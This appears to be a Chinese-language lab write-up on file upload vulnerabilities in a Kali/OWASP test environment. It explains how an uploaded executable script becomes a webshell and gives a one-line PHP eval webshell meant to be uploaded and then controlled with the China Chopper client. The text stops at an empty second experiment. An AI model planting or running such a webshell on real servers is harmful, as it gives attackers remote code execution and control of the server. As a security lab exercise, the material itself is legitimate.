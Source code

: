 ## 实验环境

###kali

###owasp

## 实验原理

### 1.文件上传是大部分Web应用都具备的功能，列如用户上传附件、修改头像、分享图片/视频等

###2.正常的文件一般都是文档、图片、视频等，web应用收集之后放入后台储存，需要的时候在调用出来返回

### 3. 如果恶意文件如php、asp、等执行文件绕过Web应用，并顺利执行，则相当于黑客直接拿到了webshell

### 4.如果黑客一旦拿到webshell，则可以拿到web应用的数据，删除web文件，本地提权，进一步拿下整个服务器甚至内网

### 5.sql注入攻击的对象是数据库服务，文件上传漏洞则主要攻击web服务，实际渗透两种相结合，达到对目标的深度控制

## 实验过程

###实验一

#### 低安全模式下，上传任意类型的文件，文件大小限制

创建shell脚本（一句话木马）

~~~php
<?php eval($_POST[‘chopper’]);?>
~~~

然后使用菜刀进行连接

###实验二


